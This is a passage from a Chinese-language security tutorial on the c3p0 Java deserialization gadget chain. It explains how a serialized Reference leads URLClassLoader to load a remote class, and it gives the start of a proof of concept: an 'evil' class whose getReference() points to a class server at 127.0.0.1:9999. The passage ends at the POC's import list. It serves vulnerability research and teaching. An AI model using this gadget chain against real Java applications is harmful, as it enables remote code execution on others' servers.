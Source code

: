跟进`ReferenceableUtils.referenceToObject()`

![image-20230125151101603](../.gitbook/assets/image-20230125151101603.png)

ref是之前序列化时候可控的，可以通过URLClassLoader加载并实例化远程类。

# 0x03 Weave POC

要让`connectionPoolDataSource`这个属性是个实现`ConnectionPoolDataSource`、`Referenceable`（后面要调用它的`getReference()`再拿去封装到`ReferenceSerialized`）这两个接口的类。重写`getReference()`方法，让其`factoryLoaction`指向恶意类所在服务器地址。

```java
public static class evil implements ConnectionPoolDataSource, Referenceable{

    public Reference getReference() throws NamingException {
        return new Reference("calc", "calc", "http://127.0.0.1:9999/");
    }
	// override
}
```

作为`PoolBackedDataSourceBase`（这个类本身有实现`Serializable`接口）的`connectionPoolDataSource`属性，由于evil类没有实现`Serializable`接口，无法反序列化。在调用`writeObject`时，调用`evil`的`getReference()`方法，返回值封装进可序列化的`ReferenceSerialized`对象。

```java
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.*;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;
```